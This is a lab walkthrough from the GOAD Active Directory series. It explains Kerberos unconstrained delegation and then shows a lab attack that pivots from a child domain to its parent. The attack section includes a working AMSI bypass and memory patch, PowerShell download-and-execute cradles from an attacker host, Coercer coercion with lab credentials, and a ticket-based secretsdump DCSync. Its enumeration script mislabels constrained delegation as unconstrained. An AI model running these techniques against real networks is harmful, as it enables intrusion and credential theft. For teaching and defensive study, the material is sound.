# GOAD Part 9 - Delegations

Within an Active Directory, services can be used by users. 
Sometimes these services need to contact others, on behalf of the user, like a web service might need to contact a file server. In order to allow a service to access another service **on behalf of the user**, a solution has been implemented (introduced in Windows Server 2000) to meet this need: **Kerberos Delegation.**

# **Delegation principle**

In order to understand what is **Kerberos Delegation**, let’s take a concrete example. A web server with a nice interface allows a user to access his personal folder, hosted on a file server. We are in the following situation:



The web server is front-end, and it’s this web server that will fetch the information instead of the user on the file server in order to display the content of a file, for example.

However, the web server does not know what belongs to the user on the file server. It is not his role to unpack the user’s [PAC](https://en.hackndo.com/kerberos-silver-golden-tickets/#pac)((Privilege Attribute Certificate)) to make a specific demand to the file server. This is where the **delegation**  comes in. This mechanism allows the web server to **impersonate** the user, and to authenticate on the user’s behalf to the file server. 
From the file server’s point of view, it is the user who makes the request. The file server will be able to read and check user’s rights, then send back the information to which this account has access. 
This is how the web server can then display this information in a nice interface back to the user.



## Constrained & Unconstrained Delegation

The ability to relay credentials can be given to an account with at least one [SPN](https://en.hackndo.com/service-principal-name-spn) attribute set. It could be a computer account or a service account.

Today, there are three ways to authorize a computer or service accounts to impersonate a user in order to communicate with one or more other service(s) : 
**Unconstrained Delegation**, **Constrained Delegation** and **Resource Based Constrained Delegation**.

# Unconstrained Delegation

For this topic, we will have some explanation and a quick lab right after.

With **Unconstrained Delegation**, the server or the service account that is granted this right is able to impersonate a user to authenticate to **any services** on **any host**.



Below there’s an example of a machine that is in **Unconstrained Delegation**.



It is historically the only choice there was when the delegation principle was introduced. But for obvious security reason, **Constrained Delegation** has been added.

The domain controller places a copy of the user’s TGT into the service ticket. When the user’s service ticket (TGS) is provided to the server for service access the server opens the TGS and places the user’s TGT into the LSASS for later use allowing the server to impersonate the user. Obtaining the ticket could lead to domain escalation as the ticket might belong to the machine account of the domain controller or a high privilege account like the domain administrator. For a computer to authenticate on behalf of other services (unconstrained delegation) two conditions are required:

1. Account has the **TRUSTED_FOR_DELEGATION** flag in the User Account Control (UAC) flags.
1. User account has not the **NOT_DELEGATED** flag set which by default non domain accounts have this flag.
This is a feature that a Domain Administrator can set to any **Computer** inside the domain. Then, anytime a **user logins** onto the Computer, a **copy of the TGT** of that user is going to be **sent inside the TGS** provided by the DC **and saved in memory in LSASS**. So, if you have Administrator privileges on the machine, you will be able to **dump the tickets and impersonate the users** on any machine.



This lab explores a security impact of unrestricted kerberos delegation enabled on a domain computer.
**By default on windows active directory all domain controller are setup with unconstrained delegation**



In this lab we will be exploiting the **Unconstrained Delegation** vulnerability to pivot from a **Child Domain** north.sevenkingdoms.local to a **Parent Domain **sevenkingdoms.local.

# Enumerating 

Unconstrained Delegation can be enumerated using Bloodhound, Impacket and also with PowerView.

## Impacket.

### Enumerate principals with Unconstrained Delegation

Works for computers and users

### Powershell

**AMSI Bypass**

`$x=[Ref].Assembly.GetType('System.Management.Automation.Am'+'siUt'+'ils');$y=$x.GetField('am'+'siCon'+'text',[Reflection.BindingFlags]'NonPublic,Static');$z=$y.GetValue($null);[Runtime.InteropServices.Marshal]::WriteInt32($z,0x41424344)`

`(new-object system.net.webclient).downloadstring('http://10.4.10.1:8080/amsi.txt')|IEX`

**asmi.txt**

```shell
# Patching amsi.dll AmsiScanBuffer by rasta-mouse
$Win32 = @"

using System;
using System.Runtime.InteropServices;

public class Win32 {

    [DllImport("kernel32")]
    public static extern IntPtr GetProcAddress(IntPtr hModule, string procName);

    [DllImport("kernel32")]
    public static extern IntPtr LoadLibrary(string name);

    [DllImport("kernel32")]
    public static extern bool VirtualProtect(IntPtr lpAddress, UIntPtr dwSize, uint flNewProtect, out uint lpflOldProtect);

}
"@

Add-Type $Win32

$LoadLibrary = [Win32]::LoadLibrary("amsi.dll")
$Address = [Win32]::GetProcAddress($LoadLibrary, "AmsiScanBuffer")
$p = 0
[Win32]::VirtualProtect($Address, [uint32]5, 0x40, [ref]$p)
$Patch = [Byte[]] (0xB8, 0x57, 0x00, 0x07, 0x80, 0xC3)
[System.Runtime.InteropServices.Marshal]::Copy($Patch, 0, $Address, 6)

```

We can use the following script in Powershell to enumerate Unconstrained Delegation.

```powershell
# Import the Active Directory module
Import-Module ActiveDirectory

# Get a list of all user accounts in the domain
$users = Get-ADUser -Filter *

foreach ($user in $users) {
    # Check if the user has the 'msDS-AllowedToDelegateTo' attribute set
    $delegationSetting = Get-ADUser $user -Properties msDS-AllowedToDelegateTo -ErrorAction SilentlyContinue

    if ($delegationSetting -ne $null -and $delegationSetting.'msDS-AllowedToDelegateTo' -ne $null) {
        Write-Host "Unconstrained Delegation is enabled for user $($user.SamAccountName)"

        # Get the specific delegation rights
        $delegationRights = $delegationSetting.'msDS-AllowedToDelegateTo'
        Write-Host "Delegation Rights for $($user.SamAccountName):"
        $delegationRights | ForEach-Object {
            Write-Host "  $_"
        }
    }
}
```



### PowerView.ps1

Then we can upload PowerView.ps1 using this

`iex (iwr -UseBasicParsing ``[http://10.4.10.1:8080/PowerView.ps1](http://192.168.56.1:8080/PowerView.ps1)``)`

After uploading PowerView.ps1 we just need to the machine we just need to import it. 

Importing PowerShell scripts are really simple. 

`. .\PowerView.ps1`

Now we can execute all PowerView commands straightforward:

`Get-DomainComputer -Unconstrained -Properties serviceprincipalname,name,samaccountname,samaccounttype,useraccountcontrol,dnshostname | fl`



`Get-DomainUser -TrustedToAuth | Select-Object samaccountname,msds-allowedtodelegateto,useraccountcontrol | Format-Table -Wrap`



We have gathered enough information to know that we do have Unconstrained Delegation configured in this Machine for user **Jon.Snow **and its **Delegation Rights**.

Unconstrained Delegation is enabled for user **`jon.snow`**
Delegation Rights for **jon.snow**:
**`CIFS/winterfell
CIFS/winterfell.north.sevenkingdoms.local`**

`$data = (New-Object System.Net.WebClient).DownloadData('http://10.4.10.1:8080/Rubeus.exe')
$assem = [System.Reflection.Assembly]::Load($data);
[Rubeus.Program]::MainString("triage");`




Now Lets use [Coercer](https://github.com/p0dalirius/Coercer) force a coerce of the DC **kingslanding** to the DC **winterfell**.

`sudo coercer coerce -u arya.stark -d north.sevenkingdoms.local -p Needle -t kingslanding.sevenkingdoms.local -l winterfell`

Since it will make us passing C several times I decided to automatize it using the following:
`yes C | sudo coercer coerce -u arya.stark -d north.sevenkingdoms.local -p Needle -t kingslanding.sevenkingdoms.local -l winterfell`

Now after running Coercer we can check with Rubeus again in memory.



From the screenshot above we can see that we can see KINGSLANDING$ TGT.



- We now have the TGT of the domain controller
- Let’s continue on linux to pass the ticket and launch dcsync with secretdump :
- copy the ticket without space and return line (in vim i do : `:%s/\s*\n\s*//g`)
- convert the ticket to ccache
- use the kerberos ticket and launch secretdump
- copy the ticket without space and return line (in vim i do : `:%s/\s*\n\s*//g`)
- convert the ticket to ccache
- use the kerberos ticket and launch secretdump
`cat KINGSLANDING$.b64|base64 -d > KINGSLANDING$.kirbi`

`ticketConverter.py KINGSLANDING$.kirbi KINGSLANDING$.ccache`



`export KRB5CCNAME=KINGSLANDING$.ccache`

`[secretsdump.py](http://secretsdump.py/)`` -k -no-pass sevenkingdoms.local/'kingslanding$'@kingslanding`




---

*Back to [GOAD Overview](../README.md)*
